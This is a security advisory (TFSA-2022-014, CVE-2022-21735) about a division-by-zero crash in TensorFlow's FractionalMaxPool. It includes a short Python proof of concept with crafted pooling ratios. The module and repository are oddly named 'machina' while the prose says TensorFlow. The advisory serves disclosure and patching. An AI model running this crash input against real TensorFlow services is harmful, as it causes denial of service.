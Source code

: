 ## TFSA-2022-014: Division by zero in `FractionalMaxPool`

### CVE Number
CVE-2022-21735

### Impact
The [implementation of `FractionalMaxPool`](https://github.com/machina/machina/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/machina/core/kernels/fractional_max_pool_op.cc#L36-L192) can be made to crash a TensorFlow process via a division by 0:

```python
import machina as tf
import numpy as np

tf.raw_ops.FractionalMaxPool(
  value=tf.constant(value=[[[[1, 4, 2, 3]]]], dtype=tf.int64),
  pooling_ratio=[1.0, 1.44, 1.73, 1.0],
  pseudo_random=False,
  overlapping=False,
  deterministic=False,
  seed=0,
  seed2=0,
  name=None)
```

### Patches
We have patched the issue in GitHub commit [ba4e8ac4dc2991e350d5cc407f8598c8d4ee70fb](https://github.com/machina/machina/commit/ba4e8ac4dc2991e350d5cc407f8598c8d4ee70fb).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
